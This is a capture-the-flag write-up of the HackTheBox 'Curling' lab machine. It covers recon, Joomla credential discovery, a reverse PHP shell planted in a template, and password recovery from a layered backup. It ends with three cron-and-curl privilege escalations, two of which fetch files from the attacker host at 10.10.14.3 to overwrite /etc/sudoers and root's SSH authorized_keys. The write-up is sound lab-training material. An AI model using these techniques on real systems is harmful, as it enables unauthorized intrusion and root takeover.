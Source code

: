 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.150 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/1.png">

The scan shows two open ports and the target is running on Linux. On port 80 there's a webservice running a CMS. We spot a administator username in a message: ```Floris```. Next we'll try to find out the type and version of the CMS.

# Enumeration
Running ```whatweb``` on the target shows us that the webservice is running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/2.png">

```Wappalyzer``` tells us the same thing:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/4.png">

Next we'll run ```joomscan``` on the target only to find out it didn't return anything useful. We do however find the administrator login page at ```http://10.10.10.150/administrator/```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/3.png">

# Initial Foothold
We can use ```cewl``` to create a wordlist in order to bruteforce the ```Floris``` administrator account.
```
cewl -m 3 http://10.10.10.150 -d 3 -w words.txt 
```
```Cewl``` removes trailing numbers so we'll add ```curling2018``` to our wordlist. We also use ```john the ripper``` to add numbers and symbols:
```
john --wordlist=words.txt --rules --stdout > words-modified.txt 
```

We intercept a login attempt with ```BurpSuite``` and use the information to craft the request for ```thc-hydra```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/5.png">
```
hydra -l Floris -P words-modified.txt 10.10.10.150 http-post-form "/:username=^USER^&passwd=^PASS^&option=com_login&task=login&return=aW5kZXgucGhw&9abbf60416dedcbdf4f5530a3ddea49d=1:F=Username and password do not match" -V 
```
This didn't work either..

Reviewing the code from the website reveals a secret.txt file. This file contains a base64 encoded string which decodes to: ```Curling2018!```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/6.png">

We can now login at the administrator page using ```Floris``` and ```Curling2018!```.

Next thing we can try is to upload a reverse php shell from Pentestmonkey. A filter is blocking this attempt. We can try to bypass these filters by altering the request but it didn't seem to work. Another method is to change the content of a page. We'll do this for the ```index.php``` page after browsing to ```Extensions >  Templates > Templates > Beez3 Details and Files```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/8.png">

As soon as we preview the template we have a reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/7.png">

# Lateral movement
Trying to upgrade to a PTY shell didn't work as there's no ```python``` installed. We can however try to upgrade to a TTY shell:
```
/usr/bin/script -qc /bin/bash /dev/null	
export TERM=xterm
Press ctrl+z key combination 
stty raw -echo; fg
```

We look for cron jobs, running processes and check the kernel version with ```uname -a```. This shows the target is running Linux Curling 4.15.0. Nothing special to see here.

When browsing the users files we have access to a file named ```pass_word``` backup. After investigating this file it turns out to be hex dump using ```xxd```. Which we can reverse.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/9.png">

```
cat password_backup | xxd -r > output
```

We then have to extract the file a few times using the following commands:
```
bzip2 -d bak
file bak.out
mv bak.out bak.gz
gzip -d bak.gz
file bak
bzip2 -d bak
file bak.out
tar xf bak.out
cat password.txt
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/10.png">

This provides us a password: ```5d<wdCbdZu)|hChXll```. We can now use ```su floris``` and enter the password to have access using the ```floris``` account.

# Privilege Escalation (Method 1)
We now have access to the ```admin-area``` where we find two files named ```input``` and ```report```. There's probably a cron job running as root. We can confirm this by running the following command:
```
while true; do ps waux | grep report | grep -v "grep --color"; done
```
We could also use ```pspy64s``` for this.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/11.png">

One way to get the root flag is to change the ```input``` file so that it uses ```curl``` to retrieve the root flag:

```
echo url = "file:///root/root.txt" > input
```
And then wait until the cron jobs runs.

# Privilege Escalation (Method 2)
Another way is to change the ```sudo``` configuration:
```
nano my-sudoers

Add:
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL:ALL) ALL
```
And start a webserver on the attacking machine:
```
python -m SimpleHTTPServer 8000
```
We then change the content of the ```input``` file so that it downloads our sudoers file and saves it at ```/etc/sudoers```:
```
echo -e 'url = "http://10.10.14.3:8000/my-sudoers"\noutput = "/etc/sudoers"' > input
```
We can now run ```sudo su``` and enter our known password to get a shell as root:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/12.png">

# Privilege Escalation (Method 3)
Yet another way is to copy our public ```ssh``` key to the authorized keys at our target. We'll first create a keypair using ```ssh-keygen``` and setup a webserver.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/13.png">

We then change the content of the ```input``` file  
```
echo -e 'url = "http://10.10.14.3:8000/authorized_keys"\noutput = "/root/.ssh/authorized_keys"' > input
```
We again wait until the file is downloaded and are then able to login as ```root```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Curling/assets/14.png">
















